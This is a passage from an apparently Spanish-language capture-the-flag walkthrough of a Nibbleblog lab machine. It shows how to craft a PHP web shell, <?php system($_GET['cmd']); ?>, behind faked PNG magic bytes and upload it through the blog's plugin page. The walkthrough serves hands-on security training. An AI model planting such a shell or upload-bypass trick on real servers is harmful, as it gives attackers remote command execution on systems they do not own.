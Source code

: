 creamos un archivo .php en nuestro equipo con los magic numbers de png 

```bash
echo '89 50 4E 0D 0A 1A 0A' |xxd -p -r > fatality.php 
```

luego con nano modificamos el php para inyectarle lo siguiente 

```php
<?php system($_GET['cmd']); ?>
```


![[ 20250711115330.png]](nibbles-images/20250711115330.png)

una vez tenemos esto vamos a subirlo a la pagina web

![[ 20250711115611.png]](nibbles-images/20250711115611.png)

al subir el archivo vemos un montón de errores y una ventanita que confirma los cambios realizados

volvemos al directorio http://10.129.96.84/nibbleblog/content/private/plugins/
